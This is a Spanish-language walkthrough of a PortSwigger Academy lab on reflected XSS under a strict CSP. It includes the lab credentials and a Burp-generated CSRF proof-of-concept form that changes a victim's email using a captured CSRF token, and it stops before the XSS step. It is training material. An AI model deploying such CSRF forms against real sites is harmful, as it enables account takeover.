

## Expert Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:
<a href="">Click me</a>
You can log in to your own account using the following credentials: wiener:peter

- Tiene bloqueado el acceso a los sitios externos
- cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator
- need to change the simulated user's email address to hacker@evil-user.net.
- <a href="">Click me</a>
- wiener:peter

Primero analizamos la web.

Existe la opción:
- loguearse
- dejar comentario
- cambiar mail

A simple vista no vemos que haya un xss


Analizamos con burp el código de la web

En el loguin vemos un csrf



Tenemos una cookie de sesion y un sec-websocket-key


Cuando ponemos un post manda un csrf también


En el change mail manda nuestro csrf


Vale, básicamente tenemos que hacer 3 cosas.

1º Crear un poc, para crear el poc que recordamos que es de la siguiente manera, necesitamos un token csrf que debemos tener anteriormente robado a nuestra víctima

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a4400870423547dc16e1158007d004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="xSdNaXoiNgkt3KfisxcR6ln4Y7Xa8lSN" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

2º Aunque es el primer paso es obtener por xss el csrf de la victima. Para ello además nos dicen que está bastante capado usando CSP